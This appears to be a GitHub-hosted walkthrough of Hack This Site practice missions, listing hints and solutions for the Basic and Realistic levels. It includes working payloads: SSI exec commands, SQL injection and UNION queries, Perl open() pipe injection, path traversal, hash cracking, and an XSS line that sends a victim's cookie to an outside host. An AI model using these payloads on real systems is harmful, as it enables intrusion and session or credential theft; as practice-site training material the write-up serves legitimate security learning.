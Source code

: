 # [Hack This Site](https://www.hackthissite.org/)

## Basic

1. (HTML) Password is written in source code
2. (-) Enter blank password
3. (HTML) Password file name is written in source code => go read it
4. (HTML) The email address can be edited in the source to mail the password to yourself
    * Save the file on desktop, edit the email and click
5. (Javascript) Same as 4 + the URL referrer is checked by the server
    * Use javascript or Firefox console to modify the value of the element on the fly
    * or Same as 4 + spoof referrer using Firefox extension (RefControl)
6. (Ascii) Simple encryption scheme where every character is shifted by 1,2,3,etc. (see Vigenère cypher)
7. (Unix) Append ls at the end of the command input to get the name of the password file
8. (SSI) Notice how the file ends with .shtml, which allows the execution of shell commands
    * Don't forget to go up one level to get to the password file
    * <!--#exec cmd="ls .." -->
9. (SSI, DT) Directory access is limited, but you can still use the input box from level 8 to access the 9th mission specifically
    * <!--#exec cmd="ls ../../9" -->
10. (Cookies) Password is irrelevant, the login is verified via a cookie that can easily be edited using Javascript
11. (Apache) Login page is located at very common index.php. The trick is finding the directory structure, given away by Elton John songs
    * Access the .htaccess file in /e/... to get to a hidden file containing the password, literally

## Realistic

1. (HTML) The dropdown values can be edited client-side to absurdely high amount allowing the cheating of the poll
2. (SQL Inj.) Check source for login page, then perform a basic SQL injection, e.g. ' or '1'='1
3. (DT) Check the source to locate the old website. From there, find a way to save the old page in place of the hacked one.
    * No need for Unix commands here, simply let the (old site poem) file creation script do the job by pasting/submitting the source of _oldindex.html_ under the name `../index.html`
4. (SQL Inj.) Submitting an incorrect email provides the name of the customers table 'email'
    * Now, toying with the URL on the products page tells us that 4 fields are expected from the query
    * Eg `1 UNION ALL SELECT 1,1,1,1`
    * Using an UNION, we can elaborate a query returning 4 fields from table 'email'
    * E.g. `?category=1 UNION ALL SELECT email,email,email,email from email` (or `?category=1 UNION ALL SELECT *,*,*,* from email` since that table  appears to only hold a single _email_ field)
    * Now just go the HTS Message Center on the homepage of HTS and post the list to SaveTheWhales
5. (Robots.txt, Hash crack) Exploring the file system, there are multiple things to notice:
    * There are a couple of hints that a robots.txt file is present to fend off search engines crawlers
    * Accessing that file shows the presence of the two directories "lib" and "secret" (also given away in the Database page source)
    * Then it is just a matter of retrieving the hash, (optional: identifying its type) and cracking it e.g. using online tools
6. (Crypto) XECryption decryption algorithm is as follows: add numbers together 3 by 3, perform frequency analysis to get the code of 'space' character
    * Subtract 32 (Ascii code for 'space' character) to the code and get the key
    * Subtracting the key from each number in the list gives the Ascii code of each character in the message => display char() of each numbe
7. (Apache, DT, Cracking) Browsing the source of the main page reveals the presence of the images/ directory and the showimages.php page that contains a vulnerability
    * Within the images/ direct lies another directory: admin/. Upon accessing it, we can realize it is protected using a Apache configuration .htpasswd file
    * Although we won't be able to access it directly, knowing it exists allows us to try and reach its content via a GET parameter to the showimages.php page
    * Once we get the content of the .htpasswd file, we can just pass it directly to a cracking program such as JohnTheRipper that will reveal the login/password
8. (SQL Inj, Cookie, Javascript) In order to find the login name of GaryHunter we can perform an SQL injection on the search.php page to return all the users.
    * Once we have the login name, we can create an account and login, then edit the cookie to switch the login name: document.cookie="accountUsername=GaryWilliamHunter";
    * The last part requires to change the "Clear personal files" button HTML value to "logFiles" in order to clear the system (and not personal) log files.
9. (XSS, DT, Cookie)  We need to use a XSS vulnerability in the website messaging system to retrieve the login cookie of the boss, however it's beyond the scope of the exercise to actually implement the cookie stealer PHP script
    * In order to do so, we can login using r-conner@crappysoft.com credentials and send a message to the boss using the following client-side scrit injection
    * `<script>window.location = "http://my.website.com/cookiesteal.php?c="+document.cookie</script>` => Get the cookie data and replace own cookie with it
    * document.cookie="strUsername=m-crap%40crappysoft.com;"
    * document.cookie="strPassword=94a35a3b7befff5eb2a8415af04aa16c";
    * document.cookie="intID=1";
    * In order to clear the logs, the mailing list page informs use that it contains a script that automatically deletes all the lines from the file exempt of '@'
    * Note how the file to update is specified in the HTML, thus we can edit it with the path to the logs file, which can be found in the directory hierarchy
10. (Soc. Eng., User Agent, Cookie) In this exercise, the credentials given by the student are never used. Instead, the listing of teachers displays their email, which is composed of their username.
    * By trying out every username on the teacher login page, we find out that one uses her username as password (smill/smiller)
    * Once we have successfully logged on, we are warned that the browser should be a specific one. Circumventing this restriction is done with a user-agent switcher.
    * Now, we need to edit the cookie to gain administrative powers and access the student grades.
    * A final step consists in getting the update URL for each low grades in the source code and simply pasting it in the address bar to run the update script.
11. (Perl) Notice that the way the pages are served is via a Perl script. By using an unexisting page name, it mentions the open() Perl method
    * This method is susceptible to a hack when providing a pipe '|' along with a command in the filename, the command will be executed (via process forking).
    * So we must try to reach this configuration: open(myfile, "ls -l|"); that will make the result of "ls -l" the content of the file displayed by the script.
    * However, we have to work within the restriction of the syntax open(file, "pages/[GET param]");
    * Use a first pipe '|' to pass the page parameter along to ls (effectively disregarding it) and a second one to direct the output of ls to us => page.pl?page=|ls|
    * This provides us with the files in the current directory. Two items are noteworthy: client_http_docs/ and bs.dbase.
    * The directory client_http_docs/ directory contains the hosted website. Looking around, one of the website might allow us into the root DB.
    * On the Radio website, there is script that logs browser visits as logging.html. Here we are supposed to switch user-agent to gain access to an account.
    * However just using account nr 0, we can edit the password and log as a mod (aclu_bomber_08290/change password). This gives us access to a SQLLite command line.
    * It is easy to Google the query listing all tables: SELECT name FROM sqlite_master WHERE type='table';
    * But we don't really want to run this on the Radio website database since it's local. We can actually branch the query script onto the main DB.
    * Changing the target DB in the HTML (and going up 2 ../ levels + 1 ../ more because of the db/ prefix in the script), we access the main DB.
    * SELECT * from web_hosting provides us with the customer accounts, that we can use to log in the admin page (access found under the FAQ section)
    * Once we're logged, we notice that we can't access space46 website directly, but we can browse and download any other resource from the other hoster websites.
    * When we try to download a file, it is served via a d.pl script. Downloading an image will direct to d.pl?file=path/imagefile.jpg. Let us change this to space46/src.tar.gz.
